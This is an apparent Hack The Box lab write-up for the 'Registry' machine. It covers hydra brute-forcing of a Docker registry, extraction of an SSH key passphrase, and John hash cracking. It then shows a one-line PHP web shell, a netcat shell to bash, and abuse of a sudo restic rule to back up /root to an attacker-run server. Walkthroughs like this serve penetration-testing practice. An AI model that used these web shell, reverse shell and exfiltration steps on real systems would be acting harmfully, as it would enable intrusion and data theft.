










# REGISTRY write-up

Registry is a hard difficulty Linux machine, which features Docker and the Bolt CMS running on Nginx. Docker registry API access is configured with default credentials, which allows us to pull the repository files. Using the disclosed information it is possible to obtain an initial foothold. User credentials for Bolt CMS can be obtained, and exploiting the CMS provides us with access to the www-data user, who has a sudo entry to perform backups as root using the restic program. After taking a backup of the root folder remotely and mounting the repository with restic, the root flag is obtained.

**Setup**

Target Subject | More info
------------ | -------------
Enumeration | [https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997](https://medium.com/basic-linux-privilege-escalation/basic-linux-privilege-escalation-966de11f9997)
Port Forwarding | ([https://www.ssh.com/ssh/tunneling/example](https://www.ssh.com/ssh/tunneling/example)
Docker API | [https://docs.docker.com/registry/](https://docs.docker.com/registry/)
Web Exploitation | [https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title](https://www.youtube.com/watch?v=InBCxzX3Od8&feature=emb_title)
Restic Exploitation | [https://restic.net/](https://restic.net/)

I decided to use COMMANDO from FireEye for this machine because I initially thought this was a Windows box.
#
**INITIAL RECON**

- [x] services? used -  **NMAP**

- [x] default creds anywhere?  -  **WEB**
- username/password

- [ ] If HTTP, webpage discoveries (manual)?
- nothing special

- [x] If HTTP, directory discovery (automated)? - **GOBUSTER**
- [ ] SMB? -
- [x] Brute force password anywhere? - **HYDRA**

**Scan assessment**:

-   22/tcp - Typical OpenSSH2.0 running on a Ubuntu box.
    
-   80/tcp & 443/tcp - running nginx 1.14.0. TLS certificate has a subdomain of **docker.registry.htb**

-- Added: docker.registry.htb to my hosts file.     --

#
**INITIAL ACCESS**

*Docker Registry predictable  username password*
-   There's a good exploit explanation here: [https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/](https://www.notsosecure.com/anatomy-of-a-hack-docker-registry/)

-   navigating to http://docker.registry.htb/v2/ produces a log-in prompt   

    -   brute forcing is needed since no other information is present. I tried typical username of ADMIN: **bash.exe  -c "hydra -e nsr -l admin -P /usr/share/wordlists/rockyou.txt docker.registry.htb http-get /v2/ -Vf"**

BruteForce was successful because of a predictable username/password combo and hydra's (**-e nsr**) which does 3 password attempts: the username as the password, username with blank password, and backwards username as password.

#
**OBTAIN USER FLAG**
1. According the website discovered during my recon, check for docker images then eventually download the manifest file: http://docker.registry.htb/v2/bolt-image/manifests/latest
    - Notice the blobs in the manifest file

2. Download the blobs (i.e. the docker image pieces of the container):
    - $cred = New-Object System.Management.Automation.PSCredential -ArgumentList @('admin',(ConvertTo-SecureString -String 'admin' -AsPlainText -Force)) *** This creates an admin:admin object that can be used to log into the site.
    - Select-String .\manifests.txt -Pattern blobsum | % {($_ -split "\s+")[2] -replace '"',""} | % { wget -Credential $cred "http://docker.registry.htb/v2/bolt-image/blobs/$_" -PassThru -OutFile "$_".Replace(':','_') }

--NOTE--
Windows has an issues with filenames containing a semicolon ( : ), so I had to replace the semicolon with an underscore .
3.    Check the file types, bash.exe  -c  "file sha*". According to the registry website. The files are typically stored as tarballs. So they'll need to be renamed in order to extract them
    - Rename the files to tar.gz: ls "sha*" | ren -NewName {$_.name + ".tar.gz" }
    - use tar.exe to extract: ls *.tar.gz | % {tar.exe -xvf $_}
4. This is a HTB machine so typically the HOME directories and webserver DIR(s) are the most important. Lets start at with the **root** DIR:
     - cat the bashrc_history file in ROOT's DIR and notice username for ssh

    - cat viminfo file in ROOT's DIR and notice prior vim usage.
    - cat ..\etc\profile.d\01-ssh.sh

5. The passphrase for the ssh key is there: **bolt:GkOcz221Ftb3ugog**
6. Use id_rsa private key to log in and cat user.txt

#
**RECON WITH ACCESS**

1. enumerate bolt DIR
     - Nothing interesting
2. enumerate webserver DIR
    - notice the restic backup service in /var/www/html/backup.php

    - notice a .db file readable by everyone. I tried to look for 'admin', 'bolt', and 'root'. Using 'root' was fruitful

3. Crack with John: bash -c "john --wordlist=/usr/share/wordlists/rockyou.txt database.hash"
    - discover creds: **admin:strawberry**
4. Looked like installed app is called bolt (i.e. bolt/bolt)
    - https://github.com/bolt/bolt (the CMS' github)

#
**OBTAIN ROOT FLAG**
1.    Navigate to registry.htb/bolt/bolt
    - login using admin creds
2. Machine doesn't allow reverse shells to attack machine so open a nc listener as user bolt and create a RCE php file
    - nc -nvvlp 1337
    - php:
> **<?php  $cmd=$_GET['cmd']; system($cmd);**
>
    
3.  Navigate to CONFIGURATION >> MAIN CONFIGURATION.
4.  Add php as one of the allowed file types.    
5.  Upload RCE php and navigate to the following: **registry.htb/bolt/files/shell.php?cmd=nc.traditional -ne /bin/bash 127.0.0.1 1337**

7.  sudo -l and notice:

>     User www-data may run the following commands on bolt:
>             (root) NOPASSWD: /usr/bin/restic backup -r rest*

Since I found backup earlier and then again as sudo -l, I figured that the vulnerability was involving a rogue backup operation using restic. I switch over to the kali container on COMMANDO to download tools that I would need.

  

1.  Install the restic service: **apt install restic**    
2.  pull the rest server: [https://github.com/restic/rest-server](https://github.com/restic/rest-server)    
3.  initial repository directory: restic init -r /tmp/restic (/tmp/restic is default directory for rest-server according to its documentation)    
4.  install rest-server: **CGO_ENABLED=0 go build -o rest-server ./cmd/rest-server**    
5.  run server: **./rest-server --no-auth** (default listening port is 8000)    
6.  Setup reverse SSH tunnel: **ssh bolt@registry.htb -i bolt.key -R 8000:localhost:8000**    
7.  Invoke sudo vulnerability on victim as www-data: **sudo /usr/bin/restic backup -r rest:http://localhost:8000 /root**
    

The victim /root DIR was sent back to my attack machine. Then it was just a matter of restoring the back up and obtaining the root.txt

1.  restic restore -v -t /tmp/ -r /tmp/restic/ 56e60c8fbac4cd31f134f4af22ffe97fe95b9653c522e049f66aa6f1eaf65b3c
    - Can you also just do **latest** as well as opposed to using the snapshot hash unless you made the victim backup multiple tings.
2. cat root.txt

